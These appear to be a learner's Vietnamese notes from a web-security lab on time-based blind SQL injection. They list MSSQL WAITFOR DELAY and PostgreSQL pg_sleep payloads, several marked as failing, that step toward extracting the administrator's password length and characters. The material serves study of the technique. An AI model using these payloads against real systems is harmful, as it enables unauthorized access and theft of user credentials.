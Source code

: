 # Kiến thức cũ:
Bài trc lab có lấy vid dụ về lệnh của Microsoft SQL Server
`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

# Lab 12:
- '--
- ' SELECT SLEEP(5)-- --> error
- ' AND SELECT SLEEP(5)-- --> error
- ' pg_sleep(5)-- --> error
- ' || pg_sleep(5)--

- ' || SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE '' END--
--> error

- ' || (SELECT pg_sleep(5))--
- ' || (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE '' END)--
- ' || (SELECT CASE WHEN (username = 'administrator') THEN pg_sleep(5) ELSE '' END FROM users)--

- ' || (SELECT CASE WHEN (username = 'administrator' AND LENGTH(password) = 20) THEN pg_sleep(5) ELSE '' END FROM users)--

- ' || (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password,1,1) = 'a') THEN pg_sleep(5) ELSE '' END FROM users)--


